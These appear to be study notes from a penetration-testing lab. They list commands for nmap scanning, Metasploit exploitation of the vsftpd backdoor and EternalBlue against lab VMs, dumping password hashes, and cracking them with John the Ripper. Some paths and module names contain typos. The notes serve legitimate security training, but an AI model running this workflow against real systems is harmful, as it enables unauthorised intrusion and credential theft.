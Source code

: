 - ip a

  - Displays the IP address of the selected object

  - The a switch processes all objects

- clear

  - Clears the screen

- nmap –sT 192.168.xx.xx

  - The sT option will run a TCP connect scan

  - Use the IP address from the previous command (ip a on the other VM)

- nmap –sT 192.168.xx.xx -p6200

  - The –p switch allows us to check a specific port

  - Port 6200 was not chosen randomly

- netcat 192.168.xx.xx \##

  - Connects to a specific IP address

  - \## is the port you want to connect to, 21 for FTP

- msfconsole

  - This command will launch the console in a terminal window

- help

  - Shows the help file

- search vsftpd

  - Searches for the term specified

- use \#

  - Uses the selected search result.

- show options

  - Displays the options and their settings

- set rhosts 192.168.xx.xx

  - set to the IP of the Metasploitable VM

  - All we need to set, as it is the only require option without a
    default

  - Remember its plural even though we just have one rhost

- exploit

  - Runs the exploit

- run

  - Runs the current module

- ls

  - Lists the files in a directory

- id

  - Tells us who we are logged in as

- ip a

  - Tells us our IP address

- shutdown 0

  - Shuts down the VM with 0 delay

- Nmap 192.168.56.0/24

  - The /24 part tells it to scan the entire subnet for hosts.

- search eternalblue

  - Searches modules for the phrase eternalblue

- use exploit/windows/smb.ms17_010_eternalblue

  - Loads the specified module

- options

  - Shows the various options for a module

- set rhosts 192.168.56.xx

  - Sets the remote hosts IP address

- ip a

  - Tells you your IP address

- set lhost 192.168.xx.xx

  - Sets the listening IP address

- Run

  - Runs the current module

- hashdump

  - Displays the hashes for the passwords stored on the machine.

- cd /usr/share/wordlists/

  - Changes the current directory to the one specified

- sudo gzip –d rockyou.txt.gz

  - Decompresses the RockYou text file

- mousepad mypswdhashes.txt

  - Launches Mousepad and opens the specified text file

- john --wordlist=/usr/shar/wordlist/rockyou.txt passwerds.txt
  --format=NT

  - Launches John the Ripper and uses the specified worklist against the
    specified password hashes, looking for password in the specified
    format

- rm ./.john/john.pot

  - Removes the cracked passwords

  - May need to be run for the above command to work
